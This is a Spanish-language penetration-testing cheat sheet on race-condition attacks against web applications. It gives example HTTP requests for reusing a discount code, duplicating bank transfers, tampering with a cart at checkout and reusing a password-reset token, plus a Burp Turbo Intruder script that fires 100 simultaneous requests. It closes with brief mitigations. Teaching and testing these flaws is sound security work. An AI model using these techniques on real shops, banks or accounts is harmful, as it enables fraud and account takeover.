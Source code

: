 # 🎑 Real World Payloads

## Race Conditions

### Sobrepasar Límites de Uso

#### Ejemplo: Código de Descuento de Un Solo Uso

**Solicitud Normal**

```http
POST /apply-discount HTTP/1.1
Host: target.com
Content-Type: application/json

{
  "discount_code": "DISCOUNT20",
  "order_id": "1234"
}
```

**Respuesta esperada**

```http
HTTP/1.1 200 OK
Content-Type: application/json

{
  "message": "Discount applied successfully",
  "discount": "20%"
}
```

**Explotación: Envío de Solicitudes Paralelas**

* Usa herramientas como **Burp Intruder** o **Turbo Intruder**.
* Envía múltiples solicitudes simultáneamente con el mismo código de descuento.

**Resultado Esperado**

```http
HTTP/1.1 200 OK
Content-Type: application/json

{
  "message": "Discount applied successfully",
  "discount": "20%"
}
```

* El descuento se aplica varias veces.

***

### Multiplicación de Saldos

#### Ejemplo: Transferencia Bancaria

**Solicitud Normal**

```http
POST /transfer HTTP/1.1
Host: target.com
Content-Type: application/json

{
  "amount": 100,
  "from_account": "1234",
  "to_account": "5678"
}
```

**Respuesta esperada**

```http
HTTP/1.1 200 OK
Content-Type: application/json

{
  "message": "Transfer successful",
  "remaining_balance": 900
}
```

**Explotación**

* Intercepta la solicitud de transferencia.
* Usa herramientas para enviarla múltiples veces simultáneamente.

**Resultado Esperado**

```http
HTTP/1.1 200 OK
Content-Type: application/json

{
  "message": "Transfer successful",
  "remaining_balance": 900
}
```

* El saldo de la cuenta original no disminuye correctamente.

***

### Condiciones de Carrera Multi-Punto

#### Ejemplo: Añadir Productos al Carrito Durante el Pago

**Flujo Normal**

1.  **Añadir producto al carrito:**

    ```http
    POST /cart/add HTTP/1.1
    Host: target.com
    Content-Type: application/json

    {
      "product_id": "123",
      "quantity": 1
    }
    ```
2.  **Realizar pago:**

    ```http
    POST /checkout HTTP/1.1
    Host: target.com
    Content-Type: application/json

    {
      "cart_id": "456",
      "payment_method": "credit_card"
    }
    ```

**Explotación**

* Envía solicitudes simultáneas para agregar productos al carrito y confirmar el pago.

**Resultado Esperado**

* El pedido final contiene productos adicionales no autorizados.

***

### Restablecimiento de Contraseña

#### Explotación de Solicitudes Simultáneas

**Solicitud Normal**

```http
POST /reset-password HTTP/1.1
Host: target.com
Content-Type: application/json

{
  "username": "victim",
  "reset_token": "1234"
}
```

**Explotación**

* Envía múltiples solicitudes con diferentes nombres de usuario pero el mismo token.

**Resultado Esperado**

```http
HTTP/1.1 200 OK
Content-Type: application/json

{
  "message": "Password reset successful"
}
```

* El token se reutiliza para cambiar la contraseña de otros usuarios.

***

### Herramientas y Técnicas

#### Burp Suite Turbo Intruder

**Script de Ejemplo**

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2)
    
    for i in range(100):
        engine.queue(target.req, gate='1')
    
    engine.openGate('1')

def handleResponse(req, interesting):
    table.add(req)
```

**Uso**

* Configura el script en Turbo Intruder.
* Ejecuta las solicitudes simultáneamente para aprovechar la ventana de carrera.

***

### Mitigaciones

1. **Bloqueo de Transacciones:** Asegúrate de que las operaciones críticas sean atómicas.
2. **Control de Concurrencia:** Implementa un sistema de bloqueo a nivel de base de datos.
3. **Límites de Tasa:** Restringe la cantidad de solicitudes por usuario.
4. **Validación Secuencial:** Usa un token único para cada operación.

***
